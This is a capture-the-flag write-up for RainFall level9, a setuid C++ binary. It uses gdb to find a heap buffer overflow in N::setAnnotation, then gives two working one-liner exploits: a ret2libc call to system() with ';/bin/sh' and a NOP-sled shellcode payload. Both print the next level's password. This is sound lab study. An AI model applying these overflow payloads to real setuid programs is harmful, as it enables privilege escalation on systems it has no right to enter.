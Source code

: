 level9
======

*	We spawn with a [level9](src/level9) executable
	```console
	level9@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
	level9@RainFall:~$ ./level9 
	level9@RainFall:~$ 
	```
*	Let's take a look at the [code](src/level9.cpp) I wrote since the ghidra version was horrible
	-	First thing I noticed was that it is in `C++`
	-	`main()`:
		-	check that there are more than 2 argc
		-	initialize two instance of the object of class `N` on the heap with `new`
		-	use `setAnnotation()` method on thy object with `argv[1]` as parameter
	-	the `N` class
		-	two variables : `value` and `annotation[100]`
		-	canonical form and `N::setAnnotation()` method which `memcpy()` the parameter to the array `annotation[100]`
*	We clearly have nothing concret like `/bin/sh` or `cat .pass`. However we should be able to overflow into a [Ret2libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc) kind of exploit or add our own shellcode to try and execute a `/bin/sh`.
*	We need :
	-	offset
	-	address of the start of the second buffer to store our exploit
	-	address of `system()` or `shellcode` depending on the exploit
*	The offset is easely found when looking at the code in gdb
	```gdb
	0x08048610 <+28>:    movl   $0x6c,(%esp)
	0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
	0x0804861c <+40>:    mov    %eax,%ebx
	[...]
	0x08048632 <+62>:    movl   $0x6c,(%esp)
	0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
	0x0804863e <+74>:    mov    %eax,%ebx
	```
	Those are the line corresponding to the initialization of our objects. Both of them need a `0x6c(HEX) -> 108(DEC)` sized buffer.
*	Now let's retrieve the address of the buffer
	```
	Reading symbols from /home/user/level9/level9...(no debugging symbols found)...done.
	(gdb) disas main
		Dump of assembler code for function main:
		[...]
		0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
		0x0804867c <+136>:   mov    0x10(%esp),%eax
		[...]
		End of assembler dump.
	(gdb) b *main+136
		Breakpoint 1 at 0x804867c
	(gdb) run 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
		Starting program: /home/user/level9/level9 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'

		Breakpoint 1, 0x0804867c in main ()
		(gdb) i r $eax
		eax            0x804a00c        134520844
	```
	Here we needed to place a breakpoint after the allocation and retrieve the address stored in `$eax` which correspond to the start of the buffer -> `\x0c\xa0\x04\x08`
*	First let's try the `Ret2libc` option :
	*	Retrieve `system()`
		```gdb
		(gdb) p system
		$1 = {<text variable, no debug info>} 0xb7d86060 <system>
		```
		it gives us `\x60\x60\xd8\xb7`, we will also need to add `;/bin/sh`
	*	We have everything we need
		```console
		level9@RainFall:~$ ./level9 $(python -c 'print("\x60\x60\xd8\xb7" + "A" * 104 + "\x0c\xa0\x04\x08" + ";/bin/sh")')
		[...]
		$ cat /home/user/bonus0/.pass
		f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
		```
*	Good now let's try the other one :
	*	Let's calculate the padding
		*	my older shellcode didn't work probably because of how the stack was dealing with the program so I used another one [here](src/shellcode.s) -> 27
		*	address of buffer = 4 bytes
		*	size of buffer = 108 bytes
		*	108 - 27 - 4 = `77 bytes` of padding
	*	And we get this :
		```console
		level9@RainFall:~$ ./level9 $(python -c 'print("\x10\xa0\x04\x08" + "\x90"*77 + shellcode + "\x0c\xa0\x04\x08")')
		$ whoami
		bonus0
		$ cat /home/user/bonus0/.pass
		f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
		```